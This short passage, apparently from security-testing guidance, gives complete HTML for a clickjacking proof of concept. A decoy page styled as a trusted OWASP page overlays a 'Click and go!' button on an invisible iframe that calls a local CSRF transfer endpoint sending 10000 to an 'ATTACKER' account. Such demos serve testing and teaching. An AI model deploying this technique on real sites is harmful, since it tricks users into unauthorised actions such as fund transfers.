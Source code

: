 The clickjacking code to create this page is presented below:

```html
<html>
    <head>
        <title>Trusted web page</title>

        <style type="text/css"><!--
            *{
                margin:0;
                padding:0;
            }
            body {  
                background:#ffffff;
            }
            .button
            {
                padding:5px;
                background:#6699CC;
                left:275px;
                width:120px;
                border: 1px solid #336699;
            }
            #content {
                width: 500px;
                height: 500px;
                margin-top: 150px ;
                margin-left: 500px;
            }
            #clickjacking
            {
                position: absolute;
                left: 172px;
                top: 60px;
                filter: alpha(opacity=0);
                opacity:0.0
            }
        //--></style>

    </head>
    <body>
        <div id="content">
            <h1>www.owasp.com</h1>
            <form action="http://www.owasp.com">
                <input type="submit" class="button" value="Click and go!">
            </form>
        </div>

                <iframe id="clickjacking" src="http://localhost/csrf/transfer.php?account=ATTACKER&amount=10000" width="500" height="500" scrolling="no" frameborder="none">
                </iframe>
    </body>
</html>
```
